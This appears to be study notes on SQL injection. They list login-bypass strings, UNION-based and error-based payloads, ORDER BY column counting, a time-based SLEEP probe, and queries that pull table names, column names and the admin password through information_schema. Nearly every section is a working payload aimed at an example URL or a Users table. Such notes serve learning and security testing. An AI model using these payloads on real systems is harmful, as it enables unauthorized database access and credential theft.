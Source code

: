 Look for input fields and URLs that have parameters
- username = Ahmed , Password = 12345
- -> username = Ahmed' --   || Ahmed'; -- 
- -> username=' OR 1=1 --   || ' OR 1=1; --


`LIMIT 2` > only retrieve two rows
`LENGHT (password) = 4`

### UNION-based Attack
`password = pass123' UNION SELECT username, passwird FROM Users;--`
### ORDER BY
The `ORDER BY` clause is often used in **SQL Injection (SQLi) attacks** to determine the number of columns in the database table before performing **UNION-based SQL Injection**.
```sql
http://example.com/products?category=1 ORDER BY 1-- 
http://example.com/products?category=1 ORDER BY 2-- 
http://example.com/products?category=1 ORDER BY 3-- 
http://example.com/products?category=1 ORDER BY 4--  (Error)

```
then the number of columns of 3.
```sql
http://example.com/products?category=1 UNION SELECT 1,2,3--
```

--------------------------------
## Extracting Table Names Across All Databases

```sql
UNION SELECT 1, (SELECT table_name FROM information_schema.tables LIMIT 8,1), 3-- -
```
 - `LIMIT` **is required** to fetch a **specific row**.
- Without `LIMIT`, you would get **all table names at once**, which may cause errors.
> what if i wrote 1 column? If the original query expects **3 columns**, this will fail because **only 1 column** (`table_name`) is selected.
    The `UNION` operator requires the **same number of columns** in both queries.(The **original SELECT statement**)

## Extracting Tables in the Current Database
```sql
UNION SELECT 1,(SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 7,1),3-- -
```
## Extracting Column Names of a Specific Table
```sql
UNION SELECT 1,(SELECT column_name FROM information_schema.columns WHERE table_schema=database() AND table_name='users' LIMIT 3,1),3-- -
```


### Error-based attack
```password = pass123' UNION SELECT 1, CONVERT ((SELECT Password FROM Users WHERE Username="admin"), DATE);--```

```sql
IF(SUBSTRING((SELECT password FROM users WHERE username='admin'),1,1)='a', SLEEP(5), 0)
```
